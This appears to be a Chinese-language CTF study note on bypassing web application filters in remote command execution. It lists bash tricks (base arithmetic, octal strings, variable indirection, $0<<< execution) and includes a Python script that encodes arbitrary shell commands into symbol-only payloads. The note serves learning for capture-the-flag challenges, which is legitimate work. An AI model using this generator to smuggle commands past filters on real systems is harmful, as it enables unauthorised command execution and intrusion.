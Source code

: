 tags:: RCE, CTF/Shell/WAF绕过

- # bash特性
	- bash可以通过`$((进制#数值))`的方式转换进制，比如说`$((2#100))`表示4
	- bash可以使用移位操作`1<<1`产生数字2
	- bash中可以通过`$0<<<"echo 1"`来执行命令
		- 可以使用`$0<<<$0\<\<\<"echo 1"`让bash二次解析，避免将整个字符串识别成命令名。
	- bash中可以使用八进制表示字符串，比如`$'\154\163'`
		- 也就是`$'`加上以`\`开头的八进制，结尾加上`'`
	- bash中`${!xxx}`可以将一个变量的值作为变量名
		- 比如如果`def=abc`且`abc=123`那`${!def}`等价于`${abc}`，其结果是123。
		-
		-
- # payload生成
	- ```python
	  def generate(n):
	      if n == 0:
	          return "$((${!#}))"
	      elif n == -1:
	          return "$((~{n0}))".format(n0=generate(0))
	      elif n == 1:
	          return "$((~$(($((~{n0}))$((~{n0}))))))".format(n0 = generate(0))
	      elif isinstance(n, int) and n < 0:
	          return "$(({}))".format("".join(generate(-1) for _ in range(-n)))
	      elif isinstance(n, int) and n > 0:
	          return "$((~{}))".format(generate(-n - 1))
	      else:
	          raise NotImplemented()
	  
	  def zero_str():
	      return "${!#}"
	  
	  def binary_str(s):
	      assert all(c in "01" for c in s)
	      return s.replace("1", generate(1)).replace("0", generate(0))
	  
	  def num(n: int):
	      return f"$(($(({generate(1)}<<{generate(1)}))#{binary_str(bin(n)[2:])}))"
	  
	  def string(s: str):
	      return "$\\'" + "".join(
	          ["\\\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "\\'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  print(payload("echo 1234"))
	  ```
-